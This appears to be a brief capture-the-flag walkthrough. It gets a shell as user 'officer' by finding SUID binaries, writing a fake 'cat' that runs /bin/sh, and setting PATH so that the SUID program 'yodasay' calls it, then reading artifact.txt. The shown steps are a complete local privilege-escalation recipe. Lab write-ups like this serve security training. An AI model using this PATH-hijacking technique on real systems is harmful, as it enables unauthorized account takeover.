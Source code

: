 1. Find files with SUID bit set `find / -type f -perm -u=s 2>/dev/null`
2. Find source code of yodasay in /tmp. See it calls cat with relative path
3. In /home/trooper/, our own cat that drops into a shell  `echo '/bin/sh' > cat'
4. Go to /home/officer
5. Modify PATH to point to our cat `export PATH=/home/trooper`
6. Run yodasay and get shell as officer `./yodasay`
7. Fix path `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
7. Read artifact.txt `cat artifact.txt`